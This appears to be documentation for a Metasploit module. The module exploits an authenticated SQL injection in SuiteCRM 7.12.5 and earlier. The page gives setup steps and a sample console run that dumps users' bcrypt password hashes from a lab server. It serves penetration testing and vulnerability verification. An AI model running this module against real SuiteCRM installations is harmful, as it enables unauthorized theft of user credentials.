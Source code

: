 ## Description
This module exploits an authenticated SQL injection in SuiteCRM installations below or equal to version 7.12.5. The 
vulnerability allows for union and blind boolean based SQLi to be exploited in order to collect usernames and password 
hashes from the SuiteCRM database.

## Vulnerable Application

[SuiteCRM 7.12.5](https://github.com/salesagility/SuiteCRM/releases/tag/v7.12.5)

## Verification Steps

1. Install vulnerable application
1. Install database 
1. Start up metasploit
1. Do: ```use scanner/http/suite_crm_export_sqli```
1. Do: ```set RHOSTS [IP]```
1. Configure a user and password list by setting `USERNAME` and `PASSWORD`.
1. Do: ```run```

## Scenarios

```
msf6 auxiliary(scanner/http/suite_crm_export_sqli) > set rhosts 192.168.123.207
rhosts => 192.168.123.207
msf6 auxiliary(scanner/http/suite_crm_export_sqli) > set username admin
username => admin
msf6 auxiliary(scanner/http/suite_crm_export_sqli) > set password admin
password => admin
msf6 auxiliary(scanner/http/suite_crm_export_sqli) > run

[*] Authenticating as admin
[+] Authenticated as: admin
[+] admin has administrative rights.
[+] Found user: admin
[+] Found user: msfuser
[+] Found user: JoeDerp
Got char: 0x69. Hash for user admin is now 0x2432792431302454716a4b5a346457474e59514769774475357153557530524973414f37755052644976583767496d3470776a6e2e3274345a597669
[+] User admin has user_hash: $2y$10$TqjKZ4dWGNYQGiwDu5qSUu0RIsAO7uPRdIvX7gIm4pwjn.2t4ZYvi
Got char: 0x65. Hash for user msfuser is now 0x243279243130246b723374577a535a44624d395f792e464c5a4b66326573433161676879454d613465384b6f7673434355455f47486c426a6b674c65
[+] User msfuser has user_hash: $2y$10$kr3tWzSZDbM9_y.FLZKf2esC1aghyEMa4e8KovsCCUE_GHlBjkgLe
Got char: 0x6d. Hash for user JoeDerp is now 0x24327924313024517434696c6f65574951686756583835634d4e486965475658596c7476435f37664461593179354d684d3930535a70454e534a436d
[+] User JoeDerp has user_hash: $2y$10$Qt4iloeWIQhgVX85cMNHieGVXYltvC_7fDaY1y5MhM90SZpENSJCm
SuiteCRM Users and Password Hashes
==================================

 user_name  password_hash
 ---------  -------------
 JoeDerp   $2y$10$Qt4iloeWIQhgVX85cMNHieGVXYltvC_7fDaY1y5MhM90SZpENSJCm
 admin     $2y$10$TqjKZ4dWGNYQGiwDu5qSUu0RIsAO7uPRdIvX7gIm4pwjn.2t4ZYvi
 msfuser   $2y$10$kr3tWzSZDbM9_y.FLZKf2esC1aghyEMa4e8KovsCCUE_GHlBjkgLe
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```